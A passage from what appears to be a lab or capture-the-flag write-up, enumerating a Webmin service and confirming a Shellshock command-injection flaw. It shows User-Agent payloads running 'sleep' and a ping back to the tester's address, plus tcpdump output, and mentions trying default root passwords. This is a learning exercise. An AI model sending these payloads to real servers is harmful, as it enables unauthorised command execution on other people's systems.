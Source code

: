 # Webmin - TCP 10000

Webmin is being hosted on port TCP 10000 with SSL:

```shell
❯ curl -Isk "http://10.10.10.7:10000/"
HTTP/1.0 200 Bad Request
Server: MiniServ/1.570
Date: Wed, 22 Dec 2021 23:33:57 GMT
Content-type: text/html; Charset=iso-8859-1
Connection: close

❯ curl -Isk "https://10.10.10.7:10000/"
HTTP/1.0 200 Document follows
Date: Wed, 22 Dec 2021 23:34:04 GMT
Server: MiniServ/1.570
Connection: close
Set-Cookie: testing=1; path=/; secure
pragma: no-cache
Expires: Thu, 1 Jan 1970 00:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Cache-Control: post-check=0, pre-check=0
Content-type: text/html; Charset=iso-8859-1
```

Webmin is a web interface for managing Unix systems. I guess some basic passwords like root / root, but no success.

## Shellshock [Path #3]

Whenever there is CGI or a Script in a web application, it is good to try to test ShellShock. To test it, I will open burpsuite and send the login request to Repeater and replace the User-Agent header with the ShellShock exploit string ``() { :; };[cmd]``, starting with a 5 second sleep:

```http
User-Agent: () { :; };sleep 5
```

If we receive a reponse in 5 seconds then it works and that will confirm that is vulnerable to shellshock. Let's try to ping ourselves back.

Setup a listener on ICMP:

```shell
sudo tcpdump -ni tun0 icmp
```

Create a single ping request with `-c 1`:

```http
User-Agent: () { :; };ping -c 1 10.10.16.3
```

And we receive a connection:

```shell
❯ sudo tcpdump -ni tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:56:11.688169 IP 10.10.10.7 > 10.10.16.3: ICMP echo request, id 20511, seq 1, length 64
18:56:11.688182 IP 10.10.16.3 > 10.10.10.7: ICMP echo reply, id 20511, seq 1, length 64
```
